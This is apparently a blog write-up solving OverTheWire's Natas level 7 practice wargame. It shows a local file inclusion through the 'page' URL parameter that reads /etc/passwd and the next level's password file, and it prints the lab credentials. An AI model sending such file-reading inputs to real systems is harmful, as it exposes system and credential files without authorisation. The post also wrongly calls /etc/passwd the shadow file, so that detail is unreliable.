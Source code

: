 ```yaml
---
layout: post
title:  "Natas Level 7"
date:   2015-09-28 13:38
categories: natas wargame web overthewire
author: Leander
---
```

This is a solution guide to the Natas7 Level at [overthewire](http://natas7.natas.labs.overthewire.org). This write-up was created on 26 September 2015.

First connect to the website
<ul><li>http://natas7.natas.labs.overthewire.org</li>
<li>Enter the following as the username natas7 and password 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9</li></ul>

When we connect we see two hyperlinks which go to "Home" and "About". After clicking on one the webpage changes slightly and  tells us we are either at home or at about. Hmmm ... Let's check the source code for the html page.

{% highlight html %}
--snip--
 
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page
 
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

--snip--
{% endhighlight %}

After looking at the source code I found that the web links reference a page file which is passed directely into index.php. What does that really mean? What happens if I try to pass the webserver something other than that? This may be a "file include" vulnerability which deals with the fact that some code developers are lazy. For example: What if the line of code which fetches  the webpage is something like this: <code>include($_GET['page']);</code> This results in the php script attempting to fetch whatever lies in 'page'

For example:<code> http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd</code>

Now the page has been replaced with the shadow file for the host system. Which looks like the following:
<figure class="highlight"><pre><code class="language-text" data-lang="text">root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin</code></pre></figure>

Alright so let's try using another file name. A good target would be the location pointed out in the hint. So now try: 
<figure class="highlight"><pre><code class="language-text" data-lang="text">http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8</code></pre></figure>

Access granted. The password is <code>natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</code>

Bingo!

